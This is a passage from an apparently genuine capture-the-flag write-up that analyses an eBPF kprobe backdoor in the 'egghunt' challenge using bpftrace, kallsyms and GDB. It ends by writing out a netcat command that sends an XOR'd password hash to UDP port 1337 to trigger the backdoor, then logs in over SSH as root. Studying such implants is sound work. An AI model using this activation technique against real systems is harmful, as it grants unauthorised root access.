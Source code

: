 Additionally, you can quickly confirm whether the backdoor kprobe function is actually doing something by setting up a trace with bpftrace as well. 

```
root@egghunt:~# bpftrace -e 'kprobe:netif_receive_skb* {printf("Incoming packet received\n");}'
```

It was also possible to kernel debug the snapshot with GDB in order to explore the structure that is in memory when UDP packets are parsed by the backdoor eBPF implant. The address of the kprobe function can be discovered through the following and a breakpoint can be setup:

```
cat /proc/kallsyms | grep '_kprobe_netif_receive_skb'
ffffffffc0826910 t bpf_prog_e0d014d973f44213_kprobe_netif_receive_skb   [bpf]
```

The structure that is populated with the required packet data that is checked can then be discovered to look at the content, and in this example the check to activate the backdoor was not passed due to an incorrect packet length (due to sending arbitrary content instead of the required xor hash.)

```
gef➤  p *(struct udphdr*)0xffff96bbcec29a24
$1 = {
  source = 0x8294,
  dest = 0x3905,
  len = 0x900,
  check = 0x1cfe
}
```

There were a lot of things to explore and look at for this challenge, and I learned a ton about Linux in the process! So with that all said, it's finally time to retrieve the flag. With a MD5Crypt hash value for the password "derp" which was then xor'd with 0x42, the flag can be retrieved by sending this to UDP port 1337 and then quickly logging in with root:derp over SSH.

```
printf 'fsf7l\nm\x14\x17\x14\x14fv\x07u\x15\x04\x085\x00\r$\n20\x183\x0b\x0e8\x10r\x01s' | nc -u egghunt.challenges.adversary.zone 1337

```

Upon successful SSH connection it will spit out the flag:

```
CS{ebpf_b4ckd00r_ftw}
```


# Exfiltrator

